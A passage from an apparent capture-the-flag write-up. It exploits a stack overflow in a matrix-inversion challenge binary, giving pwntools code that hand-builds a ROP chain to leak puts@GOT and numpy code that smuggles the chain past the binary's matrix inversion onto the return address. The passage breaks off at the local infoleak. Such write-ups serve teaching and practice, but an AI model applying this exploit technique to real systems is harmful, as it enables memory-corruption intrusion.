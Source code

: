 ```python
def d2i(f):
    return (u64(struct.pack("d", f)))

def i2d(i):
    return (struct.unpack("d", p64(i))[0])
```

So our first try was a simple infoleak ROP chain

```c
puts(GOT.puts);
```

We tried to use the pwntools `ROP` builder, but it often inserted a padding
value, that interfered with matrix inversion. So we built the ROP payload by
hand:

```python
chain0 = ROP(velf)
chain0.raw(poprdiret)
chain0.raw(velf.got['puts'])
chain0.raw(velf.symbols['puts'])
```

Then we put the ROP chain it into the matrix. We used `numpy` to perform the
matrix computations. We first created a 16 × 16 identity matrix. We then
reshaped the matrix to a flat array, to set the ROP chain values on the flat
array (you know less thinking). We know that the buffer starts at `rbp-0x720`.
So the return address is at `0x720//8 + 1 == 229`.

```python
import numpy as np
N = 16
retaddr_A_idx = 229  # == 0x720 // 8 + 1

A = np.eye(N)
Aflat = A.reshape(-1)

pl = chain.chain()

plf = struct.unpack('d' * (len(pl) / 8), pl)
for i, f in enumerate(plf):
    Aflat[retaddr_A_idx + i] = f

A = Aflat.reshape(N, N)
Ai = np.linalg.inv(A)
```

If the ROP chain is not too big, we get a lower triangular matrix, with all 1
in the main diagonal. This is a nice matrix, because it's definitely
invertible and the values in the lower part are just the negative of the
original matrix. Turns out this works pretty well and there seems to be no
rounding error when we put it through the `invert_matrix` function.

Locally we get a nice infoleak:
